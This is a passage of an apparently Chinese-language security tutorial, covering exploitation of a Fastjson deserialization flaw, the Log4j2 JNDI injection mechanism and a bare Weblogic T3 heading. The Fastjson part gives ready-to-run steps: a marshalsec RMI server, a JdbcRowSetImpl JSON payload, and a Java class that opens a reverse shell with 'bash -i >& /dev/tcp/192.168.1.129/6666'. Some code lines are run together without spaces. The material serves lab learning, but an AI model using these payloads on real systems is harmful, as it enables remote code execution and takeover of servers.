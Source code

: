 搭建HTTP服务传输文件  
```
python -m SimpleHTTPServer 1387
```  
  
![image-20230420011353523](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5PJgNf2hmjmjHhG01E1YMb6JAibsiaIxcGbxNjx8qdAWFiaTY4zeiaibxVQw/640?wx_fmt=png&from=appmsg "")  
  
![image-20230420011725129](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5R8ibSqEHdpTbavAfAHH5mz9icRkZ2rOH7LkiclAI0b9yY7jwPN8Z8QZ7g/640?wx_fmt=png&from=appmsg "")  
  
接下来利用java反序列化工具  
```
git clone https://github.com/mbechler/marshalsec.git 下载marshalsecapt-get install maven 安装mavenmvn clean package-DskipTests 使用maven编译marshalsec成jar包
```  
  
启动RMI服务器，监听9999端口  
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer"http://192.168.1.129:1387/#TouchFile"9999
```  
  
![image-20230420011506338](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5LiapUnB72fO2x1zG8kl2aJ3wb8V9TwqqTNvibS6U7dk2MicR02lDQ4LPw/640?wx_fmt=png&from=appmsg "")  
  
而后抓包，修改为POST请求，修改**Content-Type为 application/json**  
，而后传输如下数据  
```
{"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://192.168.1.129:9999/TouchFile","autoCommit":true}}
```  
  
![image-20230420011605096](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5qFYianQ2bdkqRjNwVqIb2Ad6ibmbnuWUuPSUVYZYBOuU4I9HyYic3K7SA/640?wx_fmt=png&from=appmsg "")  
  
而后查看容器中的/tmp下已成功生成**success**  
，反弹shell同理，只需要更改代码即可  
```
// javac TouchFile.javaimportjava.lang.Runtime;importjava.lang.Process;publicclassTouchFile{static{try{Runtime rt =Runtime.getRuntime();String[] commands ={"/bin/bash","-c","bash -i >& /dev/tcp/192.168.1.129/6666 0>&1"};Process pc = rt.exec(commands);            pc.waitFor();}catch(Exception e){// do nothing}}}
```  
# Log4j2  
## 漏洞原理  
  
log4j2框架下的**lookup查询服务**  
提供了**{}**字段解析功能，传进去的值会被直接解析。例如**  
${java:version}**会被替换为对应的java版本。这样如果不对lookup的出栈进行限制，就有可能让查询指向任何服务（可能是攻击者部署好的恶意代码）。  
  
攻击者可以利用这一点进行**JNDI注入**  
，使得受害者请求远程服务来链接本地对象，在lookup的{}里面构造payload，调用JNDI服务（LDAP）向攻击者提前部署好的恶意站点获取恶意的**.class对象**，造成了远程代码执行（可反弹shell到指定服务器）。  
# Weblogic  
## T3反序列化漏洞  
  